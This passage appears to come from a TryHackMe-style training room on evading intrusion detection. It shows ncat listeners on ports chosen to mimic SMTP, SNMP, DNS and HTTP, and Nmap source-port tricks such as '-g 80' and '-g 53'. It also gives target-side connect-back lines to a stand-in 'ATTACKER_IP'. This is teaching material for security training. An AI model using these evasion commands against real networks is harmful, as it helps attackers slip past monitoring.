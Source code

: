 - `-l`Â tellsÂ `ncat`Â to listen for incoming connections
- `-v`Â gets more verbose output asÂ `ncat`Â binds to a source port and receives a connection
- `-n`Â avoids resolving hostnames
- `-p`Â specifies the port number thatÂ `ncat`Â will listen on

As already mentioned, usingÂ `-u`Â will move all communications overÂ UDP.

- To listen usingÂ UDP, just issueÂ `ncat -ulvnp PORT_NUM`Â where port number is the port you want to listen to. Note that unless you addÂ `-u`,Â `ncat`Â will useÂ TCPÂ by default.
- To connect to an Ncat instance listening on aÂ UDPÂ port, you can issueÂ `nc -u TARGET_IP PORT_NUM`

Consider the following two examples:

- RunningÂ `ncat -lvnp 25`Â on the attacker system and connecting to it will give the impression that it is a usualÂ TCPÂ connection with anÂ SMTPÂ server, unless theÂ IDS/IPSÂ provides deep packet inspection (DPI).
- ExecutingÂ `ncat -ulvnp 162`Â on the attacker machine and connecting to it will give the illusion that it is a regularÂ UDPÂ communication with an SNMP server unless theÂ IDS/IPSÂ supportsÂ DPI.

### Manipulate (Source)Â TCP/UDPÂ Port

Generally speaking, theÂ TCPÂ andÂ UDPÂ source and destination ports are inspected even by the most basic security solutions. Without deep packet inspection, the port numbers are the primary indicator of the service used. In other words, network traffic involvingÂ TCPÂ port 22 would be interpreted asÂ SSHÂ traffic unless the security solution can analyze the data carried by theÂ TCPÂ segments.

Depending on the target security solution, you can make your port scanning traffic resemble web browsing orÂ DNSÂ queries. If you are usingÂ Nmap, you can add the optionÂ `-g PORT_NUMBER`Â (orÂ `--source-port PORT_NUMBER`) to makeÂ NmapÂ send all its traffic from a specific source port number.

While scanning a target, useÂ `nmap -sS -Pn -g 80 -F MACHINE_IP`Â to make the port scanning traffic appear to be exchanged with anÂ HTTPÂ server at first glance.

If you are interested in scanningÂ UDPÂ ports, you can useÂ `nmap -sU -Pn -g 53 -F MACHINE_IP`Â to make the traffic appear to be exchanged with aÂ DNSÂ server.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/0826134be47960f6466b84c0d5407654.png)  

Consider the case where you are usingÂ [Ncat](https://nmap.org/ncat). You can try to camouflage the traffic as if it is someÂ DNSÂ traffic.

- On the attacker machine, if you want to use Ncat to listen onÂ UDPÂ port 53, as aÂ DNSÂ server would, you can useÂ `ncat -ulvnp 53`.
- On the target, you can make it connect to the listening server usingÂ `ncat -u ATTACKER_IP 53`.

Alternatively, you can make it appear more like web traffic where clients communicate with anÂ HTTPÂ server.

- On the attacker machine, to get Ncat to listen onÂ TCPÂ port 80, like a benign web server, you can useÂ `ncat -lvnp 80`.
- On the target, connect to the listening server usingÂ `nc ATTACKER_IP 80`.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/b85668a256470594ea8a6310f68b5f86.png)  

### Use Session Splicing (IP Packet Fragmentation)
